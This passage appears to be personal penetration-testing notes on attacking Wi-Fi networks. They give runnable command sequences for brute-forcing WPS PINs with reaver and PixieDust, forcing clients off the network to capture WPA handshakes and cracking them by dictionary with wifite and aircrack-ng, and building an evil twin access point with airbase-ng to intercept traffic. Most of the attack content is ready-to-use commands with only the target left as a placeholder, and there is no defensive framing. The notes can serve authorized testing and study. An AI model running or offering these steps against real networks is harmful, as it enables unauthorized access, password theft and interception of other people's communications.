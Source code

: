 * will use tool called `reaver`:
* `airmon-ng start wlan0` - start the interface in monitoring mode
* `wash -i wlan0mon` - identify networks that use WPS and find it BSSID
* `reaver -i wlan0mon -b enter:target:BSSID -c 1 -vv`


## Cracking WPA password with WiFite & Aircrack NG

`wifite` checks for clients connected to target network, then de-authenticates 
those users, forcing them to re-authenticate. It then captures the handshake 
packets for further analysis with `aircrack ng`.

* `airmon-ng start wlan0` - start the interface in monitoring mode
* `wifite --mac --aircrack` - run `wifite` with random mac address, once
    handshake sequence is captured it saves it in `cap` file
* `aircrack-ng *.cap -w your_dictionary.txt` - try to decrypt the password with
    a dictionary


## Using PixieDust to recover WPS PIN

`PixieDust` needs only one handshare sequence from `WPS` negotiation, but it
works only if the WPS implementation uses low quality RNG which are quite
frently used by major router vendors. Sometimes the `nonce` used to generate
the WPS PIN is set to `0`!!!

* `airmon-ng start wlan0` - start the interface in monitoring mode
* `wash -i wlan0mon` - identify networks that use WPS and find it BSSID
* `reaver -i wlan0mon -b enter:target:BSSID -c 10 -K 1 -vv` - run `reaver` with
    `-K` to use `PixieDust` like method in order to decrypt the WPS PIN.
* once WPS PIN is recovered then `reaver` will recover `WPA PSK`


# Evil Twin

Is a hotspot that has the same `SSID`, `BSSID` as the target network and
works on the same channel but it has stronger signal. 
It might de-auth client from the legit network in order to force them to
connect to itself (and providing the key)


`Airbase ng` can be used to create an `evel twin` hotspot.

* `airmon-ng start wlan0` - start the interface in monitoring mode
* `airodump-ng wlan0mon` - list nearby access points and devices
* `airbase-ng -a target-BSSID --essid target-SSID -c 1 wlan0mon` - set adapter
    to `evil twin` mode.
    * from now on, our wifi adpater will work as `MITM` and re-route traffic to
        the legitimate AP.
* now we can use e.g. Wireshark to monitor the traffic with filters like:
    * `wlan.sa client-MAC == or wlan.ra == client.MAC`
    * we can see `802.11` packets with `WPA` encrypted traffic as `MITM`

